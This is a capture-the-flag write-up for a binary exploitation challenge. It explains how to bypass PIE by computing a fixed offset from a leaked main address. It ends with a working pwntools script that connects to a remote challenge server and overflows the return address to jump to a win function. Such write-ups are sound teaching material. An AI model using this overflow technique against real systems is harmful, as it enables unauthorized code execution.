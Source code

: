 ```yaml
---
type: Blog
title: AIRANGE'24 - Pwn - Actual Overflow 3
date: '2024-04-17'
tags: ['ctf', 'pwn', 'airange', 'writeup', 'pwntools', 'overflow']
draft: false
summary: Return to win function through one given address and pie enabled
---
```


## Challenge Description

I gave you the function back, but some mitigations were enabled, can you bypass those?

[Download](https://airange.online/files/36f153c67108a494716a3145ad6ac150/actual_overflow_3.tar?token=eyJ1c2VyX2lkIjo0NSwidGVhbV9pZCI6bnVsbCwiZmlsZV9pZCI6MzR9.Zh_uAQ.1XvwELSsvb_RWacfHV5k6Fmsn8c)

## Solution

![Screenshot](/static/writeups/overflow3/3.png)

In this challenge the pie and nx is enabled which means that every time a binary is executed it will generate the random address of every instruction in binary. BUT are those really random???

NO they are not, there is a a thing called as offset(the distance between any two function or distance of base of binary to that function) so it never changes.
WHY??????????
Because the distance of one symbol to another symbol will never change, because lets say you have one guy named ali standing 1 meter away from origin and a guy named haris standing at 2 meter from origin so regardless of their address they will always be there, that's how execution work.

Well it's just the base address that is random anything except that is an addition of offset in that address.

***base address + offset = function address***

 so if we know one address we can calculate it’s offset to another function and every time a binary is executed we just add that offset in that SO randomly generated offset.

***win address = address (+ or -) offset*** 

Here’s how i calculated offset between main and win function system call.

![Screenshot](/static/writeups/overflow3/4.png)

$$
0x5555555552bb - 0x0000555555555253 = 0x68
$$

$$
0x68 =104
$$

**EXPLOIT:**

```python
from pwn import *

# Define remote host and port
remote_host = '143.198.227.172'  # Replace with the actual remote host IP address
remote_port = 32778        # Replace with the actual remote port number

# Establish connection to remote server
p = remote(remote_host, remote_port)

# Receive main address
p.recvuntil(b'main @ ')
main_addr = p.recvuntil(b'\n', drop=True).decode()
log.info(f"Main function address: {main_addr}")

# Calculate the win function offset (replace it with the actual offset)
offset = 104  # replace it with the actual offset between main and win function

# Calculate win function address
win_addr = int(main_addr, 16) - offset
win_addr = p64(win_addr)

# Craft payload
payload = (b'A' * 264)  # Offset to return address
payload += win_addr     # Overwrite return address with the address of the win() function

# Send payload
p.sendline(payload)
p.recvline()
# Receive and print output
print(p.recvall())

# Close connection
p.close()
```

![Screenshot](/static/writeups/overflow3/5.png)